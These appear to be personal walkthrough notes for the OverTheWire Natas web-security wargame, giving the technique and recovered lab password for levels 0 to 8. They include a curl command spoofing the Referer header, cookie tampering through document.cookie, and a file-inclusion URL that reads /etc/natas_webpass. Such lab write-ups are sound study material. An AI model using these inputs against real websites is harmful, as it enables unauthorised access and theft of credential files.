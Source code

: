 # Natas0
* View page source
* gtVrDuiDfck831PqWsLEZy5gyDz1clto

# Natas1
* View page source by typing view-source in the link
* ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

# Natas2
* View source to find src = files/pixel.png
* go to [website]/files/
* sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

# Natas3
* [website]/robots.txt
* [website]/s3cr3t/
* Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

# Natas4
* curl -H "Referer: http://natas5.natas.labs.overthewire.org/" -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/
* iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

# Natas5
* Saw that there was cookie called loggedin that was set to 0
* Opened up console and did document.cookie="loggedin=1"
* aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

# Natas6
* Saw that there was an "includes/secrets.inc" file
* Visited http://natas6.natas.labs.overthewire.org/includes/secret.inc 
* Saw that the secret is FOEIUWGHFEEUHOFUOIU
* 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

# Natas7
* http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
* DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

# Natas8
* Used hex2bin php command on 3d3d516343746d4d6d6c315669563362
* Got the value b3ViV1lmMmtCcQ==, and then reversed it
* Got oubWYf2kBq as the decoded base 64 value
* W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

# Natas9
